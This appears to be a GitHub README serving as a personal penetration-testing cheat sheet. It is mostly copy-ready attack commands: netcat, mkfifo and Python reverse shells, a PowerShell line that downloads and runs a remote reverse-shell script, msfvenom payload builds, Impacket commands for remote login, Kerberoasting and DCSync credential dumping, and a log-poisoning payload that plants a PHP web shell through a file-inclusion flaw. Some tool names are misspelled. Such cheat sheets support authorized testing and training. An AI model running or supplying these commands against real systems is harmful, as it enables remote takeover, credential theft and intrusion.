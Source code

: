# Pen-Test Cheat Sheet
This repository contains this markdown file which includes common commands and tools used in a penetration test  
This will be a list of commands that has personally worked for me so I do not have to go back and find what and what doesn't work  
Commands will be seperated into categories  

## Reverse Shells

### Netcat Traditional
```
nc -e /bin/sh 10.10.10.10 4444
nc -e /bin/bash 10.10.10.10 4444
nc -c bash 10.10.10.10 4444
```
### Netcat OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### Windows
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
Use this command in conjunction with nishang shell  
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### PHP Upload
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php  

### msfvenom commands

#### Windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
#### Linux
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```
## Spawn TTY Shell
`rlwrap` enhances the shell, allowing you to clear the screen with `CTRL + L`
```
rlwrap nc 10.10.10.10 4444
```
## nmap
```
nmap -sC -sV -oA nmap/name_of_file 10.10.10.10
```
## Gobuster
```
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list.2.3-medium.txt -t 50
```
## Impacket

https://github.com/SecureAuthCorp/impacket

### psexec
Used to remotely login to victim's computer
```
psexec.py domain/user:password@10.10.10.10
```
### GetUserSPNs
Script to find and fetch Service Principle Names assosicated with normal user accounts   
Hash retrieved can be cracked using John or Hashcat  
```
GetUserSPNs.py domain/user:password -dc-ip 10.10.10.10 -request
```
### secretdumps

Performs a DCSync Attack  
DCSync Attacks pretends to be a domain controller  
Targetted account must have DCSync Privileges which can be obtain if user has Exchange Windows Permission  

```
secretdumps.py domain/user:password@10.10.10.10
```

### smbclient

A generic SMB client
```
smbclient.py domain/user:password@10.10.10.10
```

### lookupsid

Tool to bruteforce Windows SIDs which will attempt to identify remote users and groups 

```
lookipsid.py domain/user:password@10.10.10.10
```
## Port Forwarding

### ssh 

```
    ssh -L port_to_host:ip_address:port_to_forward user@host.com
```
## Local File Inclusion (LFI) / Directory Traversal

### RCE Through Apache / Nginx Log Files

Nginx log files are readable by www-data user by default  
Apache log files are readable by root and adm users (older versions are readable by all users)  

#### Poisoning User-Agent

*Example*  

Once LFI exists in the target system, send a request to  

`http://example.com/index.php?language=/var/log/apache2/access.log`

Change the User-Agent to `<?php system($_GET['cmd']); ?>`

Inject commands via `http://example.com/index.php?language=/var/log/apache2/access.log&cmd=id`

